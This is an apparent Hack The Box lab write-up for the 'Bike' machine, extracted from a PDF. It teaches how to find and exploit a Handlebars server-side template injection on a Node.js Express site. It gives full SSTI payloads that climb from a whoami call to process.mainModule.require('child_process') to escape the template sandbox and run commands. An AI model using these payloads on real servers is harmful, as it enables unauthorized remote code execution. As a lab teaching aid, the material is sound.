# Writeups

**Source PDF:** `raw-logs/document.pdf`

## TL;DR

Bike Write-up Prepared by: pwninx Introduction

## Extracted walkthrough

### Page 1

```
Bike Write-up

Prepared by: pwninx
Introduction

This machine focuses on the exploitation of a Server Side Template Injection vulnerability identified in 
Handlebars, a template engine in Node.js. This walkthrough will demonstrate how to exploit an SSTI in a 
web server, when the developer doesn't sanitise user input correctly. We will also cover the basics of 
Node.js, Template Engines and global variables, as well as how to escape a sandboxed environment with 
restricted Javascript commands available.
Enumeration

The first step is to scan the target IP address with Nmap to check what ports are open. We'll do this with the 
help of a program called Nmap. Here is a quick explanation of what each flag is and what it does. 
The scan reveals port 22  (SSH) open, however, we will ignore it for now as we don't have credentials or keys 
that can be used to authenticate. We also have port 80  open, which is running an HTTP Node.js server and 
making use of the Express framework.
-sC: Performs a script scan using the default set of scripts. It is equivalent to --
script=default.
-sV: Version detection
-v: Increases the verbosity level, causing Nmap to print more information about the scan 
in progress.
```




### Page 2

```
Upon visiting port 80, we are presented with a webpage that is currently under construction and the option 
to subscribe to updates about the page using an email address. An email subscription in web pages is 
usually an option that allows web visitors to receive updates via email, regarding the status of the website or 
the company or individual that owns it.
Let's provide a test email to verify we have a working application. When given an application to test, use it as 
if you are using it intendedly. Sometimes, developers put in poor code as a quick solution, leading to 
vulnerabilities. Let's input the email pwninx@hackthebox.eu  and click submit.
```




### Page 3

```
Once we click submit, the page refreshes and we get the following output.
```




### Page 4

```
The output shows that any input that is submitted in the Email field gets reflected back to the user once the 
page reloads. This could lead us down a trail of thinking about various potential exploitation vectors such as 
Cross Site Scripting (XSS), however, we first need to know what frameworks and coding languages the 
website uses for its backend. 
In this instance we have a pretty good rundown of the server backend from the Nmap report on port 80, 
however, we can also use a helpful extension called Wappalyzer, which scans the website and finds 
information the web page is using, such as:
Web Frameworks
JavaScript Frameworks
Web Servers
Programming Languages 
Widgets
And many more...
To install an add-on such as Wappalyzer, one needs only go to the respective extension store of the browser 
they are using (Chrome, Firefox, etc). After installing and navigating back to the Bike machine on port 80 we 
get the following output from the add-on.
```



### Page 5

```
Both Nmap and Wappalyzer have reported that the server is built on Node.js and is using the Express 
framework.
What is Node.js?
Node.js is an open-source, cross-platform, back-end JavaScript runtime environment that can be used to build 
scalable network applications.
What is Express?
Express is a minimal and flexible Node.js web application framework that provides a robust set of features for web 
and mobile applications.
With this information in mind we can start identifying potential exploitation paths. Various attempts at 
verifying an XSS vulnerability with default payloads, such as <script>alert(1)</script> , have been 
unsuccessful. For this reason we must look for a different vulnerability.
Node.js and Python web backend servers often make use of a software called "Template Engines". 
What is a Template Engine?
```




### Page 6

```
Template Engines are used to display dynamically generated content on a web page. They replace the 
variables inside a template file with actual values and display these values to the client (i.e. a user opening a 
page through their browser).
For instance, if a developer needs to create a user profile page, which will contain Usernames, Emails, 
Birthdays and various other content, that is very hard if not impossible to achieve for multiple different 
users with a static HTML page. The template engine would be used here, along a static "template" that 
contains the basic structure of the profile page, which would then manually fill in the user information and 
display it to the user.
Template Engines, like all software, are prone to vulnerabilities. The vulnerability that we will be focusing on 
today is called Server Side Template Injection (SSTI).
What is an SSTI?
Server-side template injection is a vulnerability where the attacker injects malicious input into a template in order 
to execute commands on the server.
To put it plainly an SSTI is an exploitation technique where the attacker injects native (to the Template 
Engine) code into a web page. The code is then run via the Template Engine and the attacker gains code 
execution on the affected server.
This attack is very common on Node.js websites and there is a good possibility that a Template Engine is 
being used to reflect the email that the user inputs in the contact field.
Identification

In order to exploit a potential SSTI vulnerability we will need to first confirm its existence. After researching 
for common SSTI payloads on Google, we find this Hacktricks article that showcases exploitation techniques 
for various different template engines.  The following image shows how to identify if an SSTI vulnerability 
exists and how to find out which Template engine is being used. Once the engine is identified a more 
specific payload can be crafted to allow for remote code execution.
```


### Page 7

```
The Detection paragraph in the Hacktricks page shows a variety of special characters commonly used in 
template expressions.
Some of these payloads can also be seen in the previous image and are used to identify SSTI vulnerabilities. 
If an SSTI exists, after submitting one of them, the web server will detect these expressions as valid code 
and attempt to execute them, in this instance calculating the mathematical equation 7*7  (Seven multiplied 
by Seven), which is equal to 49.
To test for the vulnerability lets try inputting ${7*7}  into the email submission form. 
{{7*7}}
${7*7}
<%= 7*7 %>
${{7*7}}
#{7*7}
```




### Page 8

```
The server did not execute the expression and only reflected it back to us. Let's move on to the second 
payload, which is {{7*7}} .
After the payload is submitted, an error page pops up.
```





### Page 9

```
This means that the payload was indeed detected as valid by the template engine, however the code had 
some error and was unable to be executed. An error is not always a bad thing. On the contrary for a 
Penetration Tester, it can provide valuable information. In this case we can see that the server is running 
from the /root/Backend  directory and also that the Handlebars   Template Engine is being used.
Exploitation

Looking back at Hacktricks, we can see that both Handlebars and Node.js are mentioned, as well as a 
payload that can be used to potentially run commands on a Handlebars SSTI. 
To determine if this is the case, we can use Burpsuite  to capture a POST request via FoxyProxy  and edit it 
to include our payload. We provide a great module on Using Web Proxies. If you have not used BurpSuite 
before it will provide a lot of valuable information.
After BurpSuite has been started and the web proxy correctly configured, submit the payload again. 
BurpSuite should capture the request and allow you to edit it.
```






### Page 10

```
Before we modify the request, let's send this HTTP packet to the Repeater  module of BurpSuite by pressing 
CTRL+R . Now let's grab a payload from the section that is titled " Handlebars (NodeJS) " in the HackTricks 
website.
The above code might seem daunting to understand, but for this writeup our main focus will be the 
following line.
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return require('child_process').exec('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
{{this.push "return require('child_process').exec('whoami');"}}
```




### Page 11

```
This line instructs the server to execute a specific system command (in this case whoami ). Later in the write-
up we will be modifying this line to execute different commands on the server. After copying the full payload 
from Hacktricks, we must URL encode it so that it will be correctly passed to the server.
URL Encoding

When making a request to a web server, the data that we send can only contain certain characters from the 
standard 128 character ASCII set. Reserved characters that do not belong to this set must be encoded. For 
this reason we use an encoding procedure that is called URL Encoding  .
With this process for instance, the reserved character &  becomes %26 . Luckily, BurpSuite has a tab called 
Decoder  that allows us to either decode or encode the text of our choice with various different encoding 
methods, including URL.
Let's paste the above payload into the top pane of the Decoder and select Encode as  > URL .
Copy the URL encoded payload that is in the bottom pane and paste it in the email=  field via the request  
tab. You will get something similar to the following image.
```




### Page 12

_No text extracted from this page._




### Page 13

```
Next, let's try sending the payload by clicking on the orange " Send " button in the top.
The response shows an error that states require is not defined . Taking a look at the payload we notice 
the following code.
This is likely the part of the payload that is erroring out. require  is a keyword in Javascript and more 
specifically Node.js that is used to load code from other modules or files. The above code is attempting to 
load the Child Process module into memory and use it to execute system commands (in this case whoami ).
Template Engines are often Sandboxed, meaning their code runs in a restricted code space so that in the 
event of malicious code being run, it will be very hard to load modules that can run system commands. If we 
cannot directly use require  to load such modules, we will have to find a different way.
Globals

In computer programming "Globals" are variables that are globally accessible throughout the program. In 
Node.js this works similarly, with Global objects being available in all loaded modules. A quick Google search 
using the keywords Node.js Global Scope  reveals this documentation that details all of the available 
Global Objects in Node.js. It is worth noting that the documentation also showcases a list of variables that 
appear to be global objects, but in fact are built-in objects. These are the following:
{{this.push "return require('child_process').exec('whoami');"}}
__dirname
__filename
exports
module
require()
```


### Page 14

```
As seen from the list, require  is in fact not in the global scope and therefore in specific cases it might not 
be accessible. Taking a closer look at the documentation we see that there is a process object available. The 
documentation states that this object provides information about, and control over, the current Node.js process. 
We might be able to use this object to load a module. Let's see if we can call it from the SSTI. Modify your 
payload as follows:
URL encode the payload as shown previously and send it using BurpSuite Repeater. 
The response did not contain an error and we can see the [object process]  has been included. This 
means that the process object is indeed available.
Taking a closer look at the documentation of the process object, we see that it has a mainModule property 
that has been deprecated since version 14.0.0 of Node.js, however, deprecated does not necessarily mean 
inaccessible. A quick Google search using the keywords Node.js mainModule  reveals this blog post that 
details the usage of this property.  
Specifically, it mentions that this property returns an object that contains the reference of main module. Since 
handlebars is running in a sandboxed environment, we might be able to use the mainModule  property to 
directly load the main function and since the main function is most probably not sandboxed, load require  
from there. Let's modify our payload once more to see if mainModule  is accessible.
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object process]
{{#with "s" as |string|}}
```



### Page 15

```
URL encode the payload and send it using the Repeater module as shown previously. The following 
response is returned:
No error this time either and we see an extra object at the end of the response, which means the property is 
indeed available. Now lets attempt to call require  and load a module. We can load the child_process  
module as it is available on default Node.js installations and can be used to execute system commands. 
Modify the payload as follows:
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule;"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
```

